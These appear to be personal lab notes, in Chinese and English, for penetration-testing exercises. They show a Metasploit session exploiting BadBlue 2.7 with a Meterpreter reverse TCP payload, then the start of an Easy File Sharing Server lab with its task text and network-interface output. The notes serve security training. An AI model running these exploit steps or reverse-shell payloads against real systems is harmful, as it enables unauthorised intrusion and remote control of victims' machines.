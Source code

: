 ```
msfconsole
search badblue 2.7
use exploit/windows/http/badblue_passthru
info
set payload windows/meterpreter/reverse_tcp
set rhosts 10.4.31.112
ip a
set lhost eth1
show options
run

meterpreter > sysinfo
```

# Windows: Easy File Sharing Server（Windows：简易文件共享服务器）
## 概述
Kali GUI 机器和运行易受攻击的简单文件共享服务器的目标机器提供给您。目标机器的 IP 地址在 Kali 机器桌面 (/root/Desktop/target) 上名为 target 的文本文件中提供。  

你的任务是使用 Kali 机器上可用的工具对应用程序进行指纹识别，然后使用适当的 Metasploit 模块利用应用程序。

目标：利用应用程序并检索标志！

说明： 
* 你的 Kali 机器有一个 IP 地址为 10.10.XY 的接口 运行 “ip addr” 来知道 X 和 Y 的值。 
* 目标机器的 IP 地址在文件 “/root/Desktop/target” 中提到
* 不要攻击位于 IP 地址 192.VW1 和 10.10.X.1 的网关

## 我自己的思路
A Kali GUI machine and a target machine running a vulnerable easy file sharing server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.

Objective:Exploit the application and retrieve the flag!

```
Target IP Address : 10.0.20.210
```

```
root@attackdefense:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
32780: eth0@if32781: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.10/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
32782: eth1@if32783: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:0a:15:05 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.10.21.5/24 brd 10.10.21.255 scope global eth1
       valid_lft forever preferred_lft forever

```
